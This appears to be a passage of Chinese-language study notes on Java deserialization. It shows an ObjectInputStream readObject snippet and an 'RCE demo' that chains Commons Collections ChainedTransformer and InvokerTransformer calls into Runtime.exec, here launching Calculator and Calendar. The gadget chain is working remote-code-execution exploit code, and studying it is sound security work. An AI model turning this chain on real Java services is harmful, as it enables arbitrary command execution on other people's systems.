```java
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
```



**关于 ChainedTransformer 执行多条命令**

参考链接：https://t.zsxq.com/aufUJEa

RCE demo

```java
public class CommandDemo {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException,
            IllegalAccessException, InvocationTargetException, InstantiationException {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")}),
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calendar.app/Contents/MacOS/Calendar")})});
        chainDemo.transform("random");
    }
}
```
